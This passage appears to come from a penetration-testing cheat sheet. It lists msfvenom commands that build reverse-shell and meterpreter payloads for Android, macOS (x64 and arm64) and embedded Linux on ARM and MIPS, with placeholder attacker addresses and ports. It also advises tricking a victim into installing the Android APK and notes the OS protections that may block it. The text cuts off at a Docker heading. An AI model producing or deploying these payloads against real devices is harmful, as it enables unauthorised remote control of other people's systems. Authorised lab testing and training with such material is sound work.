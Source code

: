 
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -o android_meter.apk
```

- **Android Reverse Shell (generic):**
    

```bash
msfvenom -p android/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -o android_shell.apk
```

**Delivery:** upload to device, sideload, or social-engineer victim to install. Be aware of Play Protect and Android OS protections.

---

### iOS / macOS (Intel + Apple Silicon / arm64)

- **macOS x64 (Mach-O):**
    

```bash
msfvenom -p osx/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f macho -o mac_shell.macho
```

- **macOS arm64 (Apple Silicon)**  
    Some payloads for `osx/arm64` exist — check `msfvenom -l payloads` and use:
    

```bash
msfvenom -p osx/arm64/<payload> LHOST=<IP> LPORT=<PORT> -f macho -o mac_arm_shell.macho
```

**Notes:** macOS Gatekeeper, notarization, and SIP may interfere — test in lab environments.

---

### IoT / Embedded architectures (ARM, ARMLE, MIPS, MIPSEL)

- **Linux ARM (little-endian) meterpreter:**
    

```bash
msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o arm_meter.elf
```

- **MIPS (big/little endian) shell**
    

```bash
msfvenom -p linux/mipsbe/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o mipsbe_shell.elf
msfvenom -p linux/mipsel/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o mipsel_shell.elf
```

**Notes:** Ensure the target CPU/ABI matches (uClibc vs glibc, endianness). Many embedded devices run stripped-down environments.

---

### Containers / Docker
